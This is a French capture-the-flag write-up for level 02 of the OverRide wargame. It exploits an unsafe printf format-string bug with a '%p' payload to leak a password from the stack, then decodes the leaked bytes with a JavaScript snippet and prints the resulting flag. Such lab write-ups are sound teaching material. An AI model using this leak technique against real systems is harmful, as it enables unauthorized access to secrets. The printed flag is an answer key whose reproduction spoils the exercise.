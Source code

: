 # Level 02

Nous remarquons l'utilisation d'un printf non sécurisé dans le programme.
Notre première entrée est utilisée en tant que string de formattage.

Nous utilisons le flag %p pour sonder la stack et obtenir le pass stocker dans le buffer de lecture du fichier. 26 %p suffisent à afficher l'entiereté du pass.

```bash
level02@OverRide:~$ python -c 'print "%p" * 27' | ./level02
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: --[ Password: *****************************************
0x7fffffffe3d0(nil)(nil)0x2a2a2a2a2a2a2a2a0x2a2a2a2a2a2a2a2a0x7fffffffe5c80x1f7ff9a08(nil)(nil)(nil)(nil)(nil)(nil)(nil)(nil)(nil)(nil)(nil)(nil)0x100000000(nil)0x756e5052343768480x45414a35617339510x377a7143574e67580x354a35686e4758730x48336750664b394d(nil) does not have access!
```

Nous convertissons la chaine de caractère d'adresses hexadécimales avec un script et obtenons le flag suivant: `Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H`

Script utilisé:
```js
let raw = "0x756e5052343768480x45414a35617339510x377a7143574e67580x354a35686e4758730x48336750664b394d";

let result =
    raw
    .replace(/0x/g, '') // enlever les 0x au début des adresses
    .match(/.{1,16}/g) // grouper par addresses de 16 caractères hexadécimaux
    .map(address => 
        address
        .match(/.{1,2}/g) // grouper par 2 caractères
        .reverse() // reverse les octets de l'addresse à cause du little endian
        .map(hex => parseInt(hex, 16)) // parser les 2 caractères hexadécimaux
    )
    .flat();

let pass = String.fromCharCode(...result) // convertir en string
```
